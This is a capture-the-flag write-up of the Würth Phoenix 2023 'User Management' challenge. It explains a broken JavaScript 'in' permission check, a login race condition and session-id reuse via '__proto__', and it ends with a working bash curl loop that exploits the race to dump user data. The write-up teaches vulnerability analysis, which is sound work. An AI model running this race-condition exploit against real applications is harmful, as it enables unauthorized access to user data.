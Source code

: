 ```yaml
---
layout: default
title: "Würth Phoenix CTF 2023 writeup of User Management"
title_left: WPCTF2023
fn_keys:
  - key: F3
    text: Exit
    href: "/blog"
  - key: F12
    text: Print
    href: "#"
    onclick: "window.print(); return false"
og_description: Writeup of the Würth Phoenix CTF challenge 2023 challenge User Management
---
```


# Würth Phoenix 2023 Writeup

The 2023 edition of the Würth Phoenix challenge went great for our team Pearàk, winning the 
competition.

Among the multiple challenges that we solved, one we enjoyed one in particular, and we also
were the only one to solve it.

So here is the writeup.

## User Management

The challenge presents with a login page where you can register. From a first analysis of the
code (that fortunately we had access to) we could see that there were 3 users:

```js
const insert = 'INSERT INTO user (name, surname, password, enabled) VALUES (?,?,?,?)';
db.run(insert, ["admin","admin",crypto.randomBytes(20).toString('hex'),0])
db.run(insert, ["anyone","anyone","anyone",1])
db.run(insert, ["flag",FLAG,crypto.randomBytes(20).toString('hex'), 0])
```

As it can be seen, the only account that we can use is "anyone" with password "anyone".
The other accounts we can not use it for two reasons, first they are not enabled, and 
second we don't know the password (nobody does, anyway). 

It's also clear that the flag is in the surname field of the "flag" user, that however
we can not use it.

From an analysis of the code we also see that there is no possibility to do SQL injection.
We need to invent something else!

We also see that there is an user privilege mechanism:
```js
exports.PERMISSION = {
    ADMIN: 0,
    GUEST: 1,
}

db.run(`CREATE TABLE permissions (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    name text UNIQUE,
    permission integer, 
    CONSTRAINT name UNIQUE (name)
  )`,
  (err) => {
      if (!err) {
          // Table just created, creating some rows
          const insert = 'INSERT INTO permissions (name, permission) VALUES (?,?)';
          db.run(insert, ["admin",0])
          // db.run(insert, ["anyone",1])
          db.run(insert, ["flag",1])
      }
  }); 
```

As it can be seen, the "flag" user has no permission at all (we will see why this is important later!).

## First intuition

We see that we can call this API to retrieve the information of all the users:

```js
app.get("/api/users",async (req, res) =>{
    if(
        req.session.user && session_manager.PERMISSION.ADMIN in req.session.user.permission
    ){  // check if users has session_manager.PERMISSION.ADMIN
        db.all("SELECT id, name, surname, permission, '***' as password FROM user", (err, users)=>{
            res.json({
                success: true,
                users: users
            });
        });
    }else{
        res.status(401).json({
            success: false,
            error: "Unauthorized"
        });
    }    
})
```

We stared at this code for too much time without seeing the issue. Can you spot it?

Let me hint something to you, if you did uncomment the insert at the previous chapter of the 
permission this code would have validated the user as an admin! How you say? The code did 
only tell you that the user was a guest.

Well... what does the `in` operator to in JavaScript? Not what you expect! It checks that the 
specified **key** is in the array. In this case the key `0`. Thus, this check will pass not only
for admin users, but for users whom the `permission` array is not empty!

## Second vulnerability

Well, but we can't do nothing. Because, we seen that the `permission` array of the user was empty, 
at the previous chapter. Are you sure about that? Let's see how an user is created:

```js
app.post('/login', async(req, res) => {
    db.all("SELECT * FROM user WHERE name=? AND enabled=1", [req.body.username], (err, users)=>{
        // omitted password check. No vulnerability is there! 

        req.session.user = {
            name: user.name,
            surname: user.surname,
            permission: [session_manager.PERMISSION.GUEST], // default no permission
            id: user.id,
        }

        // HERE!!!

        db.all("SELECT * FROM permissions WHERE name=?", [req.body.username], (err, permissions)=>{
            req.session.user.permission = permissions.map((p)=>p.permission) || [];
        })

        res.json({
            success: true
        });
    });
});
```

As you can see, first the session of the user is first created with a `permission` array initialized
with a guest element. For the broken check at the previous chapter, we can say for sure that if we 
would have called the API `/api/users` in that particular point of the flow of execution, the API 
would have returned US the user list!

So... basically it's a race condition! 

## Exploit

So we could have a thread that continues logging in the `anyone` user, and another thread continuing
calling the `/api/users` API, and we would have a moment where the call would return, since the second 
SQL query does indeed block the request handler and may unlock the handling of the request of the 
other call. 

We have only one last issue to address. The session generation! How can we make sure that we use always
the same session token? Well, simple enough. If you see the session id is not reset when the user logs in,
indeed the session ID of the request is used if provided in the cookie. 

We just have to make sure that the two threads use the same session ID to make this work. Since the 
session ID is just a key in a JS object, we can just use a property that for sure is present in an 
object (like `__proto__`). I initially seen it as a potential third vulnerability, but now that I 
think of it it was not strictly necessary, we could have just have invoked `/login` once, got the 
session token and then used it for the two threads. 

Here is an ugly crafted bash script to exploit it (yes, it's a terrible hack, but it works!):

```bash
# login request thread
(while true; do curl http://$1/login -H 'Content-Type: application/json' -d '{ "username": "anyone", "password": "anyone" }' -H 'Cookie: session_id=__proto__; Path=/' 2>/dev/null >/dev/null; done) &

# api users thread
while true; do
  curl http://$1/api/users -H 'Cookie: session_id=__proto__; Path=/' 2>/dev/null | grep flag
done;
```

In less than a second the race condition is triggered and we got the flag!

## Conclusion

The Würth Phoenix CTF was a very fun event, and we want to thank al the organizers for the 
great time and prizes we had!

